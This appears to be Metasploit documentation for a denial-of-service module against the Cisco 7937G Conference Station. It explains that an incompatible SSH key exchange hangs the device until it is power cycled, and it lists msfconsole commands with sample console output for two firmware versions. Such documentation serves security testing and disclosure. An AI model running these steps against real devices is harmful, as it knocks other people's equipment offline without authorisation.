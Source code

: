 ## Vulnerable Application

  [Cisco 7937G](https://www.cisco.com/c/en/us/support/collaboration-endpoints/unified-ip-conference-station-7937g/model.html) Conference Station.
  This module has been tested successfully against firmware versions SCCP-1-4-5-5 and SCCP-1-4-5-7.

### Description

  This module exploits a bug in how the conference station handles incoming SSH
  connections that provide an incompatible key exchange. By connecting with an
  incompatible key exchange, the device becomes nonresponsive until it is manually power cycled.

## Verification Steps

  1. Obtain a Cisco 7937G Conference Station.
  2. Enable SSH Access on the device.
  3. Start msfconsole
  4. Do: `use auxiliary/dos/cisco/cisco_7937G_dos`
  5. Do: `set RHOST 192.168.1.10`
  6. Do: `run`
  7. The conference station should now be nonresponsive until it is power cycled

## Options

  No options

## Scenarios

### Cisco 7937G Running Firmware Version SCCP-1-4-5-7

#### Successful Scenario:
```
msf > use auxiliary/dos/cisco/cisco_7937G_dos 
msf auxiliary(dos/cisco/cisco_7937G_dos) > set rhost 192.168.110.209
rhost => 192.168.110.209
msf auxiliary(dos/cisco/cisco_7937G_dos) > run

[*] Starting server...
[*] 192.168.110.209 - Connected (version 2.0, client OpenSSH_4.3)
[-] 192.168.110.209 - Exception: Incompatible ssh peer (no acceptable kex algorithm)
[-] 192.168.110.209 - Traceback (most recent call last):
[-] 192.168.110.209 -   File "/usr/lib/python3/dist-packages/paramiko/transport.py", line 2083, in run
[-] 192.168.110.209 -     self._handler_table[ptype](self, m)
[-] 192.168.110.209 -   File "/usr/lib/python3/dist-packages/paramiko/transport.py", line 2198, in _negotiate_keys
[-] 192.168.110.209 -     self._parse_kex_init(m)
[-] 192.168.110.209 -   File "/usr/lib/python3/dist-packages/paramiko/transport.py", line 2354, in _parse_kex_init
[-] 192.168.110.209 -     raise SSHException(
[-] 192.168.110.209 - paramiko.ssh_exception.SSHException: Incompatible ssh peer (no acceptable kex algorithm)
[-] 192.168.110.209 - 
[*] 192.168.110.209 - dos non-reset attack completed!
[*] 192.168.110.209 - Errors are intended.
[*] 192.168.110.209 - Device must be power cycled to restore functionality.
[*] Auxiliary module execution completed
```

#### Unsuccessful Scenario:
```
msf > use auxiliary/dos/cisco/cisco_7937G_dos 
msf auxiliary(dos/cisco/cisco_7937G_dos) > set rhost 192.168.110.209
rhost => 192.168.110.209
msf auxiliary(dos/cisco/cisco_7937G_dos) > run

[*] Starting server...
[-] 192.168.110.209 - Device doesn't appear to be functioning (already dos'd?) or SSH is not enabled.
[*] Auxiliary module execution completed
```

### Cisco 7937G Running Firmware Version SCCP-1-4-5-5

#### Successful Scenario:
```
msf > use auxiliary/dos/cisco/cisco_7937G_dos 
msf auxiliary(dos/cisco/cisco_7937G_dos) > set rhost 192.168.110.209
rhost => 192.168.110.209
msf auxiliary(dos/cisco/cisco_7937G_dos) > run

[*] Starting server...
[*] 192.168.110.209 - Connected (version 2.0, client OpenSSH_4.3)
[-] 192.168.110.209 - Exception: Incompatible ssh peer (no acceptable kex algorithm)
[-] 192.168.110.209 - Traceback (most recent call last):
[-] 192.168.110.209 -   File "/usr/lib/python3/dist-packages/paramiko/transport.py", line 2083, in run
[-] 192.168.110.209 -     self._handler_table[ptype](self, m)
[-] 192.168.110.209 -   File "/usr/lib/python3/dist-packages/paramiko/transport.py", line 2198, in _negotiate_keys
[-] 192.168.110.209 -     self._parse_kex_init(m)
[-] 192.168.110.209 -   File "/usr/lib/python3/dist-packages/paramiko/transport.py", line 2354, in _parse_kex_init
[-] 192.168.110.209 -     raise SSHException(
[-] 192.168.110.209 - paramiko.ssh_exception.SSHException: Incompatible ssh peer (no acceptable kex algorithm)
[-] 192.168.110.209 - 
[*] 192.168.110.209 - dos non-reset attack completed!
[*] 192.168.110.209 - Errors are intended.
[*] 192.168.110.209 - Device must be power cycled to restore functionality.
[*] Auxiliary module execution completed
```

#### Unsuccessful Scenario:
```
msf > use auxiliary/dos/cisco/cisco_7937G_dos 
msf auxiliary(dos/cisco/cisco_7937G_dos) > set rhost 192.168.110.209
rhost => 192.168.110.209
msf auxiliary(dos/cisco/cisco_7937G_dos) > run

[*] Starting server...
[-] 192.168.110.209 - Device doesn't appear to be functioning (already dos'd?) or SSH is not enabled.
[*] Auxiliary module execution completed
```
